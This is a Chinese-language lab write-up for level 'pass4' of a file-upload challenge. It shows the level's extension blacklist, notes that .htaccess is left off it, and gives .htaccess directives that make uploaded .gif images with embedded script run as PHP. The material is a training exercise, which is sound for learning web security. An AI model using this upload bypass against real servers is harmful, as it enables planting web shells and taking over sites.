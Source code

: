 
## pass4（黑名单-.htaccess）

### 分析

ban：

```php
 $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
```

可以看到禁用了更多类型，但没有禁用`.htaccess`，那么就可以先上传`.htaccess`，在上传木马~



#### 关于`.htaccess`：

**条件：**

php5.6以下不带nts的版本

服务器没有禁止.htaccess文件的上传，且服务商允许用户使用自定义.htaccess文件



**利用方式：**

上传覆盖.htaccess文件，重写解析规则，将上传的带有脚本马的图片以脚本方式解析。



**关于.htaccess文件内容：**

.htaccess文件解析规则的增加，是可以按照组合的方式去做的，具体需要自己多测试一下。

第一种、虽然好用，但是会误伤其他正常文件，动静大容易被发现

```
<IfModule mime_module>

AddHandler php5-script .gif     	#在当前目录下，只针对gif文件会解析成php代码执行
SetHandler application/x-httpd-php  #在当前目录下，所有文件都会被解析成php代码执行

</IfModule>
```

第二种、同1没太大区别

```
<IfModule mime_module>

AddType application/x-httpd-php .gif

</IfModule>
```

